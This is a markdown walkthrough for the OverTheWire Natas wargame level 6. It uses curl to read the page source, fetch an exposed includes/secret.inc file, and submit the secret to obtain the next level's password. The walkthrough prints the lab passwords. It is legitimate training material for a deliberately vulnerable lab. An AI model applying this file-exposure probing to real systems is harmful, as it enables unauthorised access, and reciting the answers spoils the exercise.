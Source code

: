 # Natas Level 5 → Level 6 

## 🧠 Goal

Find password to the next level

---

## 🔐 Credentials

- **Username:** `natas6`  
- **Host:** `http://natas6.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `0RoJwHdSKWFTYR5WuiAewauSuNaBXned` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned http://natas6.natas.labs.overthewire.org  
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "0RoJwHdSKWFTYR5WuiAewauSuNaBXned" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
http://natas6.natas.labs.overthewire.org/index-source.html \
| html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2933  100  2933    0     0  12790      0 --:--:-- --:--:-- --:--:-- 12807
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</
script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
```bash
──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
http://natas6.natas.labs.overthewire.org/includes/secret.inc \
| html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    39  100    39    0     0    172      0 --:--:-- --:--:-- --:--:--   173
$secret = "FOEIUWGHFEEUHOFUOIU"; ?>
```
```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
--data "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit" \
http://natas6.natas.labs.overthewire.org/ | html2text

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1105  100  1065  100    40   4613    173 --:--:-- --:--:-- --:--:--  4804
****** natas6 ******
Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
Input secret:[secret              ]
[Submit]
View sourcecode
```
![level_06](./images/level_06.png)

or you can just use the browser 
___

## 💡 Tips

💡 Your HTML form:
```html
<form method="post">
  Input secret:
  <input name="secret">
  <input type="submit" name="submit">
</form>
```
secret=FOEIUWGHFEEUHOFUOIU is the value entered by the user.

submit=Submit is the name and value of the submit button.

┌──(amro㉿amro)-[~]
└─$ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned \
--data "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" \
http://natas6.natas.labs.overthewire.org/ | html2text



```bash
sudo apt install html2text
```
if u pipe using html2text it will render the html
___

## 📤 Output
```bash
bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
```
